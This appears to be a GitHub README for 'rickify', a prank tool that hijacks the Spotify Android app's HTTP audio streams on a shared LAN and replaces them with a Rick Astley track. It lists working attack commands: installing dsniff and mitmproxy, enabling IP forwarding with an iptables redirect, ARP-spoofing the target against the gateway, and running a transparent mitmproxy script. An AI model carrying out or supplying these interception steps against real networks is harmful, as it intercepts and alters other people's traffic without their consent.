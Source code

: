 ![](https://github.com/kjempelodott/rickify/blob/master/f9z.png)

The Spotify app for Android streams the first few seconds of a track over HTTP. Being on the same LAN as your target, this can easily be pwned. It turns out the Spotify app for Android will happily accept and play any Ogg-file.

**Notes:**
* This will not work with IPv6
* This will not work for already cached/downloaded tracks

## We know the game and we're gonna play it

Install the required tools:

```
apt-get install dsniff
pip install mitmproxy
```

## You know the rules and so do I

Turn on port forwarding and forward HTTP traffic to port 8080:

```
sysctl -w net.ipv4.ip_forward=1
iptables -t nat -I PREROUTING -p tcp --dport 80 -j REDIRECT --to-port 8080
```

## A full commitment's what I'm thinking of

Identify the gateway and the target IP address. Use Wireshark or whatever. Then trick your target device into sending all traffic to you instead of the gateway:

```
arpspoof -t [target ip] [gateway ip] # e.g. -t 192.168.1.101 192.168.1.1
```

## You wouldn't get this from any other guy

Get a copy of *Never Gonna Give You Up* in Ogg-format. You probably have to change the filename in line 3 in *rickroll.py*. Setup a transparent proxy on port 8080 and intercept HTTP requests to heads-akp.spotify.com.edgesuite.net:

```
mitmproxy -T -p 8080 -s rickroll.py -i "heads-akp.spotify.com.edgesuite.net"
```